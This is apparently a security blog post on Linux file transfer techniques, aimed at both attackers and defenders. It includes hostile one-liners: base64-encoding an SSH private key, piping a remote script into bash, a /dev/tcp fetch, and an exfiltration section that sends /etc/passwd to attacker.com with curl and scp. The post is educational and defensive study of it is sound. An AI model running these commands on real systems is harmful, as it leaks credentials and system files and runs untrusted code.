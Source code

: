 ```yaml
---
title: "Linux File Transfer Methods"
date: 2025-03-16 12:00:00 +0000
categories: [Linux, Security]
tags: [File Transfer, Offensive Security, Incident Response]
description: "Exploring various methods to transfer files in Linux, from traditional tools to fileless techniques."
#image: "/assets/images/linux-file-transfer.png"
---
```


## Introduction

Understanding file transfer methods in Linux is crucial for both attackers and defenders. Threat actors often exploit various transfer techniques to deploy malware, while security professionals use them to detect and mitigate attacks.

This post explores multiple ways to transfer files in Linux, including network-based and fileless methods.

## **Common File Transfer Techniques**

### **1. Base64 Encoding/Decoding**
If network access is restricted, files can be encoded in Base64, copied as text, and then decoded on the target machine.
```bash
# Encode a file
cat id_rsa | base64 -w 0

# Decode the file on the target machine
echo 'encoded_string' | base64 -d > id_rsa
```

### **2. Web-Based Downloads**
Using `wget` and `curl`, files can be fetched from a remote server:
```bash
# Using wget
wget https://example.com/file.sh -O /tmp/file.sh

# Using curl
curl -o /tmp/file.sh https://example.com/file.sh
```
For fileless execution, commands can be piped:
```bash
curl https://example.com/script.sh | bash
```

### **3. Bash `/dev/tcp` Transfers**
If common tools are unavailable, Bash can be used to fetch files via raw TCP connections:
```bash
exec 3<>/dev/tcp/target_ip/80
echo -e "GET /file.sh HTTP/1.1\n\n" >&3
cat <&3
```

### **4. SSH & SCP Transfers**
Using SSH, files can be securely transferred between systems:
```bash
# Download a file from a remote machine
scp user@remote:/path/to/file .

# Upload a file to a remote machine
scp file.txt user@remote:/home/user/
```

### **5. Python, PHP, and Ruby Web Servers**
If a compromised machine has Python, PHP, or Ruby, a quick web server can be started:
```bash
# Python 3 Web Server
python3 -m http.server 8000

# PHP Web Server
php -S 0.0.0.0:8000
```
The file can then be retrieved from another machine:
```bash
wget http://target_ip:8000/file.txt
```

## **Upload Operations**
For exfiltrating files from a target, `curl` can be used to upload via a malicious server:
```bash
curl -X POST https://attacker.com/upload -F 'file=@/etc/passwd' --insecure
```
Alternatively, `scp` can be used:
```bash
scp /etc/passwd user@attacker:/tmp/
```

## **Conclusion**
Understanding Linux file transfer techniques is essential for security professionals. Whether downloading, uploading, or performing fileless execution, knowing these methods enhances both attack and defense strategies.

Stay informed and practice ethical security techniques to protect your systems!

